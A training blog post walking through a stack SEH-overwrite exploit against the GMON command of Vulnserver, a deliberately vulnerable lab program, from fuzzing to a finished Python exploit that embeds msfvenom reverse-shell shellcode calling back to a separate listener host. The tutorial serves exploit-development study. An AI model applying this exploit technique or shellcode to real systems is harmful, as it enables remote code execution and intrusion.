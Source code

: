 :page-slug: vulnserver-gmon/
:page-date: 2020-06-16
:page-category: attacks
:page-subtitle: Exceptions are good
:page-tags: osce, vulnserver, training, exploit
:page-image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620331144/blog/vulnserver-gmon/cover_yohcmp.webp
:page-alt: Photo by Roberto Gomez Angel on Unsplash
:page-description: This post will show how to exploit the Vulnserver GMON command using Structured Exception Handling (SEH) overwrite.
:page-keywords: Business, Information, Security, Protection, Hacking, Exploit, OSCE, Ethical Hacking, Pentesting
:page-author: Andres Roldan
:page-writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/KmKZV8pso-s

= GMON Exploiting: Harnessing SEH

This is the fourth article on the series of exploiting `Vulnserver`,
a `VbD` (Vulnerable-by-Design) application
in which you can practice Windows exploit development.

In our previous posts, we have successfully exploited link:../vulnserver-trun/[TRUN],
and link:../vulnserver-gter-no-egghunter/[GTER] commands.
Both of them had something in common: direct `EIP` overwrite, in which
our buffer directly overwrote the `saved return address` on the stack frame
of the affected function with a `JMP` instruction to execute the code
on our controlled buffer.

In this post, we will exploit the `GMON` command using a Structured
Exception Handling (`SEH`) overwrite to take control of the flow of Vulnserver.

== Structured Exception Handling

`SEH` is a non-standard mechanism created by Microsoft to handle exceptions
of applications using a uniform structure. It allows `C/C++` programs using
the well-known exception handling syntax (`try-except-finally`) used by other
high-level imperative languages. Here's an example:

[source,c]
----
__try {
    ....
    strcpy(mybuff, myinput);
}
__except (INSUFFICIENT_MEMORY) {
    my_exception_handler();
}
----

As you may imply, this code will try to execute `strcpy()`, and if it fails
because `INSUFFICIENT_MEMORY`, it will execute `my_exception_handler()`.

As there may be many exceptions, some explicitly declared by the
application and other by the `OS`, the handlers are tied together by a chain
of `_EXCEPTION_REGISTRATION_RECORD` structures, the last one (identified by
`FFFFFFFF`) being the default handler.

When an exception occurs,
the `OS` will walk the `SEH` chain,
finding which of them can handle that exception.
If none of the handlers have that exception registered,
the default handler (`FFFFFFFF`) will be triggered.

The structure of `_EXCEPTION_REGISTRATION_RECORD` is:

[source,c]
----
typedef struct _EXCEPTION_REGISTRATION_RECORD
{
     PEXCEPTION_REGISTRATION_RECORD Next;
     PEXCEPTION_DISPOSITION Handler;
} EXCEPTION_REGISTRATION_RECORD, *PEXCEPTION_REGISTRATION_RECORD;
----

Here the `Next` parameter is a pointer to the next exception handler, also
called `nSEH`, and the `Handler` parameter is a pointer to the handler itself.
We can see the exception handler's chain on a debugger:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331141/blog/vulnserver-gmon/seh1_cwzur2.webp[SEH chain]

And on the stack, it is shown as:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331143/blog/vulnserver-gmon/seh2_vg1vlp.webp[SEH chain]

More information on `SEH` can be found on
link:https://docs.microsoft.com/en-us/cpp/cpp/structured-exception-handling-c-cpp?view=vs-2019[Microsoft's site].

== SEH exploiting

To oversimplify, the main goal of exploiting a program using `SEH` is to have
the ability to overwrite the exception handler pointer
(`my_exception_handler()` in our example) of the vulnerable function
with a pointer to our controlled code.

Some things must be in place for us
to successfully exploit an application using `SEH`:

. The application must have `SEH` built-in. This is a compile-time option.
. Our buffer will be allowed to pass far enough in the stack frame
to reach the function's `SEH` handler.
. The application must be compiled with `SafeSEH=Off`.

`SafeSEH` is a mechanism created since Windows XP that statically defines
the list of the allowed exception handlers, and if the application tries to
call something different, a crash will happen.

Ok, now with that summary of `SEH`, let's get our hands dirty.

== Fuzzing GMON

As with the other Vulnserver commands, the `GMON` command takes a single
parameter, so, we can reuse our Spike fuzz template:

[source,c]
----
s_string("GMON ");
s_string_variable("*");
----

Remember that the `s_string` command will send an immutable string to
the fuzzed protocol, and `s_string_variable` tells `Spike` to use
that string as a fuzz point.

And run it:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331143/blog/vulnserver-gmon/fuzz1_qh0ra7.gif[Fuzzing GMON]

We got the crash!

And as with the other Vulnserver commands, it seems that 5060 bytes of data
triggered the crash:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331142/blog/vulnserver-gmon/wireshark1_qyfgfo.webp[Wireshark]

We can create our first proof-of-concept exploit:

.exploit.py
[source,python]
----
import socket

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'GMON /.:/' +
    b'A' * 5000
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

Now run our exploit with `vulnserver.exe` attached to a debugger:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331143/blog/vulnserver-gmon/crash1_hrw5ri.gif[PoC]

As you can see, we effectively crashed `vulnserver.exe`,
but `EIP` does not seem to be mangled by our buffer.

However, if we look at the `SEH` chain table, we will see this:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331141/blog/vulnserver-gmon/seh3_axexgv.webp[Corrupted SEH]

That means that we effectively triggered an exception and overwrote the
exception handler with our buffer. If we trigger the exception handler (in
Immunity Debugger, it's done with `Shift+F9`) this will happen:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331142/blog/vulnserver-gmon/eip1_keniyt.gif[EIP control]

We control `EIP!` That means that
we have control over the process execution flow again.

We can now exploit this.

== Exploiting

We first need to find the exact offset on where the `SEH` handler gets
overwritten. We can do that by creating a cyclic pattern
using `pattern_create.rb` from Metasploit:

[source,console]
----
$ msf-pattern_create -l 5000
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac....
----

Let's add that pattern to our exploit:

[source,python]
----
import socket

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'GMON /.:/' +
    b'<insert pattern here>'
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And run it:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331142/blog/vulnserver-gmon/pattern1_pds6g9.webp[Pattern offset]

As you can see, the handler was overwritten with `346F4533`.
To find the offset in which the `SEH` handler gets overwritten,
we can use `pattern_offset.rb`:

[source,console]
----
$ msf-pattern_offset -q 346F4533
[*] Exact match at offset 3551
----

Great, the offset on which
the `SEH` handler starts to be overwritten is `3551`.

To check that offset, we can inject:

. 3551 `A` characters
. 4 `B` characters
. 5000 - 3551 - 4 = 1445 `C` characters

If the `SEH` handler gets overwritten with our `B` buffer, we got it right.
This is our updated exploit:

[source,python]
----
import socket

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'GMON /.:/' +
    b'A' * 3551 +
    b'B' * 4 +
    b'C' * 1445
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And the result:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331142/blog/vulnserver-gmon/offset1_sosm3e.gif[Right offset]

Awesome!

Now, what would normally happen is to find a `JMP ESP` instruction.

However, let's look at the state of the stack
after triggering the exception handler:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331143/blog/vulnserver-gmon/aftercrash1_ipm82n.webp[Stack]

We can see several things here:

. `EIP` is `42424242`.
. There are 8 bytes between the `ESP` at `0104EBA0` and a pointer to
our buffer at `0104EBA8`.
. So, if we'd run a `JMP ESP`, we'd land at a place in the stack
which we don't control, and exploitation would likely fail.

So we need to find a way of removing those 8 bytes off of the stack in order
to redirect the execution flow to `0104EBA8` which has a pointer to our
controlled buffer.

== POP/POP/RET

The x86 stack is a `LIFO` (Last In First Out) structure
where the last item pushed into the stack is the first to be popped back.
Each `PUSH` instruction will push exactly 4 bytes into the stack, decreasing
the stack pointer (`ESP = ESP - 4`) and every `POP` instruction will pop
exactly 4 bytes off of the stack, increasing the stack pointer
(`ESP = ESP + 4`).

With that in mind, and knowing that we need to remove 8 bytes of the
stack to then return to `0104EBA8` which has a pointer to our controlled
buffer, we need to find an address that contains a sequence of these
instructions:

[source,x86asm]
----
POP R32           ; R32 can be any 32 bits register
POP R32
RET
----

The first `POP` will remove the first 4 bytes of the stack, the next `POP` the
other 4 bytes. The `RET` will place the pointer at `0104EBA8` to `EIP`
which will redirect the execution flow to our buffer.

We can find those 3 instructions using many ways. I will use `mona.py`:

[source,console]
----
!mona seh -cp nonull -cm safeseh=off -o
----

This will tell `mona.py` to find `POP/POP/RET` instruction sequences and
omit addresses with null characters (`-cp nonull`), omit addresses on
modules compiled with `SafeSEH` (`-cm safeseh=off`), and omit addresses
on modules of the `OS` (`-o`).

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331142/blog/vulnserver-gmon/mona1_gzwngq.webp[POP POP RET]

And we got 12 different options. We can choose any of those.
I will choose the sequence at `625011FB` just because :)

We can now update our exploit with that address:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'GMON /.:/' +
    b'A' * 3551 +
    # 625011FB    58                          POP EAX
    # 625011FC    5A                          POP EDX
    # 625011FD    C3                          RETN
    struct.pack('<L', 0x625011FB) +
    b'C' * 1445
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And run it:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331143/blog/vulnserver-gmon/popret1_xnh1tf.gif[POP POP RET]

Weeeeeeeh! We overwrote the `SEH` handler, triggered the exception, and
redirected to a `POP/POP/RET` sequence that returned to our controlled buffer!

However...!

We landed only 4 bytes before our injected `POP/POP/RET` address.
Remember the `_EXCEPTION_REGISTRATION_RECORD` structure?
It has 2 members: the `SEH` handler,
which we are overwriting with the `POP/POP/RET` address,
and the pointer to the next exception handler, also called `nSEH`.
Well, we landed at `nSEH`.

However, just after the injected address there's a good 43 bytes buffer,
and before `nSEH` we had our 3500+ bytes buffer of `A`.

So, what's next? That's right! We must jump around again!

== Jump around

We only have 4 bytes to perform our first jump. Fortunately for us, short
jumps are only link:https://thestarman.pcministry.com/asm/2bytejumps.htm[2 bytes long].

We must perform a short jump of at least 8 bytes to pass *over* our
injected `POP/POP/RET` address and land on our `C` buffer.
We can get the needed opcodes using `nasm_shell.rb`:

[source,console]
----
$ msf-nasm_shell
nasm > jmp short +0xa
00000000  EB08              jmp short 0xa
----

*Fun fact:* Note that we told to perform a 10 byte (`0xa`) jump, and the
returned opcode was `EB08`. It's because the `JMP` will calculate the offset
including the length of the `JMP` instruction, which is 2 bytes.

OK, with our short jump opcode we can update our exploit:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'GMON /.:/' +
    b'A' * (3551 - 4) +
    # JMP SHORT +0xa
    b'\xeb\x08' +
    # NOP NOP to fill the 4 bytes of nSEH
    b'\x90\x90' +
    # 625011FB    58                          POP EAX
    # 625011FC    5A                          POP EDX
    # 625011FD    C3                          RETN
    struct.pack('<L', 0x625011FB) +
    b'C' * 1445
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And see if we could effectively jump over the `SEH` handler:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331142/blog/vulnserver-gmon/jmp1_hsds6d.gif[Short jump]

Yes! We are past our `SEH` handler. Now we have enough room of bytes to perform
a long jump back to the start of our `A` buffer.
With the debugger's help, we get the needed offset by simply telling it to jump
to the start of our `A` buffer and letting it calculate the offset.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331141/blog/vulnserver-gmon/jmp2_xmjgq1.gif[Long jump]

As you can see, the resultant bytes are `E9 16 F2 FF FF`.

Let's update our exploit with that:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'GMON /.:/' +
    b'A' * (3551 - 4) +
    # JMP SHORT +0xa
    b'\xeb\x08' +
    # NOP NOP to fill the 4 bytes of nSEH
    b'\x90\x90' +
    # 625011FB    58                          POP EAX
    # 625011FC    5A                          POP EDX
    # 625011FD    C3                          RETN
    struct.pack('<L', 0x625011FB) +
    b'C' * 2 +
    # JMP long backwards to the start of our 'A' buffer
    b'\xe9\x16\xf2\xff\xff' +
    b'C' * (1445 - 2 - 5)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And check it:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331140/blog/vulnserver-gmon/jmp3_pwvvyj.gif[Long jump]

Great! All that's left is to insert a shellcode. Let's do that.

== Getting shell

We can create a reverse shellcode using `msfvenom` from Metasploit:

[source,console]
----
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.18 LPORT=4444 EXITFUNC=seh -f python -v SHELL -b '\x00'
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1807 bytes
SHELL =  b""
SHELL += b"\xba\x26\x9f\x12\x98\xda\xda\xd9\x74\x24\xf4\x58"
SHELL += b"\x33\xc9\xb1\x52\x83\xc0\x04\x31\x50\x0e\x03\x76"
SHELL += b"\x91\xf0\x6d\x8a\x45\x76\x8d\x72\x96\x17\x07\x97"
SHELL += b"\xa7\x17\x73\xdc\x98\xa7\xf7\xb0\x14\x43\x55\x20"
SHELL += b"\xae\x21\x72\x47\x07\x8f\xa4\x66\x98\xbc\x95\xe9"
SHELL += b"\x1a\xbf\xc9\xc9\x23\x70\x1c\x08\x63\x6d\xed\x58"
SHELL += b"\x3c\xf9\x40\x4c\x49\xb7\x58\xe7\x01\x59\xd9\x14"
SHELL += b"\xd1\x58\xc8\x8b\x69\x03\xca\x2a\xbd\x3f\x43\x34"
SHELL += b"\xa2\x7a\x1d\xcf\x10\xf0\x9c\x19\x69\xf9\x33\x64"
SHELL += b"\x45\x08\x4d\xa1\x62\xf3\x38\xdb\x90\x8e\x3a\x18"
SHELL += b"\xea\x54\xce\xba\x4c\x1e\x68\x66\x6c\xf3\xef\xed"
SHELL += b"\x62\xb8\x64\xa9\x66\x3f\xa8\xc2\x93\xb4\x4f\x04"
SHELL += b"\x12\x8e\x6b\x80\x7e\x54\x15\x91\xda\x3b\x2a\xc1"
SHELL += b"\x84\xe4\x8e\x8a\x29\xf0\xa2\xd1\x25\x35\x8f\xe9"
SHELL += b"\xb5\x51\x98\x9a\x87\xfe\x32\x34\xa4\x77\x9d\xc3"
SHELL += b"\xcb\xad\x59\x5b\x32\x4e\x9a\x72\xf1\x1a\xca\xec"
SHELL += b"\xd0\x22\x81\xec\xdd\xf6\x06\xbc\x71\xa9\xe6\x6c"
SHELL += b"\x32\x19\x8f\x66\xbd\x46\xaf\x89\x17\xef\x5a\x70"
SHELL += b"\xf0\xd0\x33\x7a\x12\xb9\x41\x7a\x03\x65\xcf\x9c"
SHELL += b"\x49\x85\x99\x37\xe6\x3c\x80\xc3\x97\xc1\x1e\xae"
SHELL += b"\x98\x4a\xad\x4f\x56\xbb\xd8\x43\x0f\x4b\x97\x39"
SHELL += b"\x86\x54\x0d\x55\x44\xc6\xca\xa5\x03\xfb\x44\xf2"
SHELL += b"\x44\xcd\x9c\x96\x78\x74\x37\x84\x80\xe0\x70\x0c"
SHELL += b"\x5f\xd1\x7f\x8d\x12\x6d\xa4\x9d\xea\x6e\xe0\xc9"
SHELL += b"\xa2\x38\xbe\xa7\x04\x93\x70\x11\xdf\x48\xdb\xf5"
SHELL += b"\xa6\xa2\xdc\x83\xa6\xee\xaa\x6b\x16\x47\xeb\x94"
SHELL += b"\x97\x0f\xfb\xed\xc5\xaf\x04\x24\x4e\xd1\xf5\xf4"
SHELL += b"\x5b\x46\xac\x6d\x26\x0a\x4f\x58\x65\x33\xcc\x68"
SHELL += b"\x16\xc0\xcc\x19\x13\x8c\x4a\xf2\x69\x9d\x3e\xf4"
SHELL += b"\xde\x9e\x6a"
----

And with that, we can have the final exploit:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

# msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.18 LPORT=4444 EXITFUNC=seh -f python -v SHELL -b '\x00'
SHELL =  b""
SHELL += b"\xba\x26\x9f\x12\x98\xda\xda\xd9\x74\x24\xf4\x58"
SHELL += b"\x33\xc9\xb1\x52\x83\xc0\x04\x31\x50\x0e\x03\x76"
SHELL += b"\x91\xf0\x6d\x8a\x45\x76\x8d\x72\x96\x17\x07\x97"
SHELL += b"\xa7\x17\x73\xdc\x98\xa7\xf7\xb0\x14\x43\x55\x20"
SHELL += b"\xae\x21\x72\x47\x07\x8f\xa4\x66\x98\xbc\x95\xe9"
SHELL += b"\x1a\xbf\xc9\xc9\x23\x70\x1c\x08\x63\x6d\xed\x58"
SHELL += b"\x3c\xf9\x40\x4c\x49\xb7\x58\xe7\x01\x59\xd9\x14"
SHELL += b"\xd1\x58\xc8\x8b\x69\x03\xca\x2a\xbd\x3f\x43\x34"
SHELL += b"\xa2\x7a\x1d\xcf\x10\xf0\x9c\x19\x69\xf9\x33\x64"
SHELL += b"\x45\x08\x4d\xa1\x62\xf3\x38\xdb\x90\x8e\x3a\x18"
SHELL += b"\xea\x54\xce\xba\x4c\x1e\x68\x66\x6c\xf3\xef\xed"
SHELL += b"\x62\xb8\x64\xa9\x66\x3f\xa8\xc2\x93\xb4\x4f\x04"
SHELL += b"\x12\x8e\x6b\x80\x7e\x54\x15\x91\xda\x3b\x2a\xc1"
SHELL += b"\x84\xe4\x8e\x8a\x29\xf0\xa2\xd1\x25\x35\x8f\xe9"
SHELL += b"\xb5\x51\x98\x9a\x87\xfe\x32\x34\xa4\x77\x9d\xc3"
SHELL += b"\xcb\xad\x59\x5b\x32\x4e\x9a\x72\xf1\x1a\xca\xec"
SHELL += b"\xd0\x22\x81\xec\xdd\xf6\x06\xbc\x71\xa9\xe6\x6c"
SHELL += b"\x32\x19\x8f\x66\xbd\x46\xaf\x89\x17\xef\x5a\x70"
SHELL += b"\xf0\xd0\x33\x7a\x12\xb9\x41\x7a\x03\x65\xcf\x9c"
SHELL += b"\x49\x85\x99\x37\xe6\x3c\x80\xc3\x97\xc1\x1e\xae"
SHELL += b"\x98\x4a\xad\x4f\x56\xbb\xd8\x43\x0f\x4b\x97\x39"
SHELL += b"\x86\x54\x0d\x55\x44\xc6\xca\xa5\x03\xfb\x44\xf2"
SHELL += b"\x44\xcd\x9c\x96\x78\x74\x37\x84\x80\xe0\x70\x0c"
SHELL += b"\x5f\xd1\x7f\x8d\x12\x6d\xa4\x9d\xea\x6e\xe0\xc9"
SHELL += b"\xa2\x38\xbe\xa7\x04\x93\x70\x11\xdf\x48\xdb\xf5"
SHELL += b"\xa6\xa2\xdc\x83\xa6\xee\xaa\x6b\x16\x47\xeb\x94"
SHELL += b"\x97\x0f\xfb\xed\xc5\xaf\x04\x24\x4e\xd1\xf5\xf4"
SHELL += b"\x5b\x46\xac\x6d\x26\x0a\x4f\x58\x65\x33\xcc\x68"
SHELL += b"\x16\xc0\xcc\x19\x13\x8c\x4a\xf2\x69\x9d\x3e\xf4"
SHELL += b"\xde\x9e\x6a"

PAYLOAD = (
    b'GMON /.:/' +
    SHELL +
    b'A' * (3551 - 4 - len(SHELL)) +
    # JMP SHORT +0xa
    b'\xeb\x08' +
    # NOP NOP to fill the 4 bytes of nSEH
    b'\x90\x90' +
    # 625011FB    58                          POP EAX
    # 625011FC    5A                          POP EDX
    # 625011FD    C3                          RETN
    struct.pack('<L', 0x625011FB) +
    b'C' * 2 +
    # JMP long backwards to the start of our 'A' buffer
    b'\xe9\x16\xf2\xff\xff' +
    b'C' * (1445 - 2 - 5)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

Let's check it:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331143/blog/vulnserver-gmon/shell1_vnbwoj.gif[Success]

Our shell! We are getting good at it, aren't we?

You can download the final exploit link:exploit.py[here]

== Conclusion

Exploiting applications using `SEH` overwriting is just a little different
than the vanilla `EIP` overwrite. However, you must take care of the little
details all the way down to get a successful exploitation. You can check
different `SEH`-based exploits at the
link:../vulnserver-lter-seh/[Vulnserver LTER], the
link:../quickzip-exploit/[QuickZIP exploiting] and
the link:../netscan-exploit/[Netscanner exploiting] articles.
